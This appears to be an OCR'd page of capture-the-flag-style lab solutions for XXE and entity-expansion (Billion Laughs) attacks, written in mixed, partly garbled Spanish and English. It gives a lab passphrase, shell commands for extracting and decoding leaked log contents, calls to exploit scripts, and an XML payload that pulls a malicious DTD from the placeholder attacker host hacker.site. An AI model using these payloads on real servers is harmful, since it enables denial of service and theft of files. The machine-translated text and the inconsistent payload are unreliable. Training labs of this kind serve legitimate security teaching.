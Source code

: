 Encode the log path

```bash
%5BLOGS%5D/omg_%C3%A0_dos.log
```

Extraer el contenido del resultado. Utilizar awk o gawk, depende del sistema:

```bash
gawk 'match($0, /<b>XXEME (.*)<\\\/b>\s/, m) { print m[1] }'
```

Eliminar JSON escapando characters:

```bash
sed 's/\\\//\//g'
```

Decode Unicode characters:

```bash
echo $(php -r "echo html_entity_decode(preg_replace(\"/%u([0-9a-f]{3,4})/i\",'&#x\\1;',str_replace('\u', '%u', '$cleaned')),null,'UTF-8');" ;
```

XEE DoS

```bash
./exploit.sh
```

XXE log file extraction

```bash
./exploit_xxe.sh /var/www/3/%5BLOGS%5D/omg_%C3%A0_dos.log
```

### Solutions - Lab#4

Explotacións XEE-XXE mezcladas con evasión de filtros y codificaciones de caracteres:

_Ah filtros ... siempre lanza una llave en las obras._ Passphrase válido

La contraseñora válida es Escaping.and.evasion.like-a.boss Pasos de explotación

* Probando el formulario de inicio de sesión, recibirás una pista que te dice que visites el camino de las estadísticas.
* Abra la ruta de las estadísticas y compruebe el estado porcentual de la Memoria Física.
* Corre el ataque de las risas de Billion contra el login parser. Si el ataque funciona correctamente, notarás una caja de alerta con las instrucciones.

> El servidor implementa algunos archivadores para evitar ataques XEE. Para explotar el fallo, la solución más rápida es mover el ataque de las risas de Billion en un archivo DTD externo alojado en hacker.site (sustituye con la dirección IP de su máquina atacante), y luego llamarlo de la siguiente manera:

xml carga útil

```xml
<?xml version="1.0"?>
<!DOCTYPE results [
    <!ENTITY % EvilDTD PUBLIC "xxe"
        "http://hacker.site/evil_remote_xee.dtd">
    %EvilDTD;
]>
<login>
    <username>XEEME &file;</username>
    <password>password</password>
</login>
```
